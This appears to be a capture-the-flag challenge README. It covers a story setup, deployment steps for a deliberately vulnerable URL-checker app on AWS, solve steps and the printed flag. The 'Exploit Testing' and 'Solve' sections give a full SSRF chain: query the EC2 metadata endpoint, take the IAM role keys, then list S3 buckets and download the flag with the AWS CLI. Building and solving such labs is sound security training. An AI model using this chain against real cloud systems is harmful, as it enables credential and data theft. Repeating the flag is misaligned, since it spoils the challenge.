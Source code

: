 # Title
The Tenney Disappearance


# Description
Detective Christina Krypto was one of the best in the NYPD Cybercrime Division, known for her relentless pursuit of digital criminals. She was investigating a massive cloud security breach linked to stolen credentials—an attack that allowed an unknown entity to siphon classified government and corporate data.

Then, she vanished without a trace.

The only lead left behind? Her personal workstation, still running a custom-built Cyber URL Checker—a tool she used to analyze suspicious links for potential security flaws. The last URL she checked seems to have triggered something before she disappeared.

Her workstation is still active at http://35.93.151.76:5000. If you can retrace her steps and uncover what she was looking at, you might find the truth—and the secret hidden in the cloud.

# Hint
Detective Krypto was investigating AWS infrastructure vulnerabilities. Reports suggest she was last seen looking at a specific metadata endpoint. If someone had access to cloud credentials but couldn't use them, where would they look to investigate further?


Fuck you liam <3. I am putting this here cause I wont bother making a solve script id rather bring at all down and up if i have to.
## Magpie CTF AWS Deployment Setup

This guide walks you through setting up the **AWS infrastructure** and **Flask-based Cyber URL Checker** for challenge.

---

### 1 Prerequisites
Before you begin, ensure you have:
- **AWS CLI** installed and configured (`aws configure`)
- **Terraform** installed (`terraform -v`)
- **An AWS account** with permissions to create EC2, S3, IAM roles
- **SSH key pair** (`id_ed25519` and `id_ed25519.pub`)

---

### 2 Generate an SSH Key Pair (If Not Already Created)
If you don’t have an SSH key, generate one:

```sh
ssh-keygen -t ed25519 -f id_ed25519 -N ""
```

Move it into your Terraform directory.

---

### 3 Set Up Terraform & Deploy Infrastructure
1. **Edit `main.tf` to include your AWS region & profile.**  
   If using a specific AWS profile, ensure `provider "aws"` has:
   ```hcl
   provider "aws" {
     region  = "us-west-2"  # Change if needed
     profile = "my-profile"
   }
   ```

2. **Initialize Terraform:**
   ```sh
   terraform init
   ```

3. **Plan the deployment:**
   ```sh
   terraform plan
   ```

4. **Apply the Terraform configuration (This creates EC2, S3, IAM Role, Security Groups, and uploads files):**
   ```sh
   terraform apply -auto-approve
   ```

---

### 4 Configure S3 Bucket Permissions
1. **Go to the AWS S3 console** → Select **`magpie2025-secret-25`**.
2. Click **Permissions** → **Object Ownership** → Set to **"Bucket owner preferred"**.
3. **Save Changes**.

---

### 5 SSH into the EC2 Instance & Run Setup
1. Get the EC2 **public IP** from Terraform’s output or the AWS console:
   ```sh
   terraform output ec2_public_ip
   ```

2. **SSH into the instance**:
   ```sh
   ssh -i id_ed25519 ubuntu@<EC2_PUBLIC_IP>
   ```

3. **Run the setup script manually**:
   ```sh
   chmod +x /home/ubuntu/startup.sh
   sudo /home/ubuntu/startup.sh
   sudo bash /home/ubuntu/startup.sh
   ```

---

### 6 Verify Flask App is Running
1. Check if the container is running:
   ```sh
   sudo docker ps
   ```

2. If running, test the app in your browser:
   ```
   http://<EC2_PUBLIC_IP>:5000
   ```

3. If not running, manually start the container:
   ```sh
   sudo docker restart cyber-url-checker
   ```

---

### 7 Exploit Testing
1. **Submit a URL like `http://169.254.169.254/latest/meta-data/iam/security-credentials/`** in the form.
2. You should see IAM role credentials returned.
3. **Use the leaked credentials** to list S3 buckets:
   ```sh
   AWS_ACCESS_KEY_ID="LEAKED_KEY" AWS_SECRET_ACCESS_KEY="LEAKED_SECRET" aws s3 ls
   ```

4. Download the flag:
   ```sh
   AWS_ACCESS_KEY_ID="LEAKED_KEY" AWS_SECRET_ACCESS_KEY="LEAKED_SECRET" aws s3 cp s3://magpie2025-secret-25/flag.txt .
   ```

---

### 8 Cleanup
Once testing is complete, destroy the infrastructure:
```sh
terraform destroy -auto-approve
```

---

### 9 Common Issues & Fixes
✅ **Terraform Hangs on EC2 Setup:**  
- SSH in and manually run `/home/ubuntu/startup.sh`

✅ **Flask App Not Running:**  
- Restart with `sudo docker restart cyber-url-checker`

✅ **Cannot List S3 Buckets (`AccessDenied` Error):**  
- Ensure `s3:GetObject` and `s3:ListBucket` permissions are correct in Terraform IAM policy.

✅ **AWS Credentials Expired:**  
- Generate new ones by re-running the exploit.


# Solve

1. Make a request to `http://169.254.169.254/latest/meta-data/iam/security-credentials/` to find the IAM role that is associated with the EC2.
2. Make a request to `http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM ROLE>` to determine the accesskeyid and secretaccesskey of the AWS IAM Role.
3. On a terminal with the AWS CLI installed, run `aws configure` and configure the Access Key, Secret Access Key, and the region. The region can be guessed either by the IP of the EC2/website (curl -O https://ip-ranges.amazonaws.com/ip-ranges.json), or they can guess. 
4. Determine what permissions the user has, either through a brute force, or by just checking some common ones. This use also has the ability to read S3 buckets.
5. Run `aws s3 ls`, which will show all S3 buckets the user has access to. 
6. Run ` aws s3 s3://magpie2025-secret/ ls` or ` aws s3 ls s3://magpie2025-secret-25/` to see all the files in the bucket.
7. Run ` aws s3 cp s3://magpie2025-secret/flag.txt .` to download the flag. 

Most of the ` magpie2025-secret` refrences are changed to the actual s3 bucket name which is ` magpie2025-secret-25` in this instant and may be subject to change

# Flag

magpie{14m_15_700_345y_70_m355_up}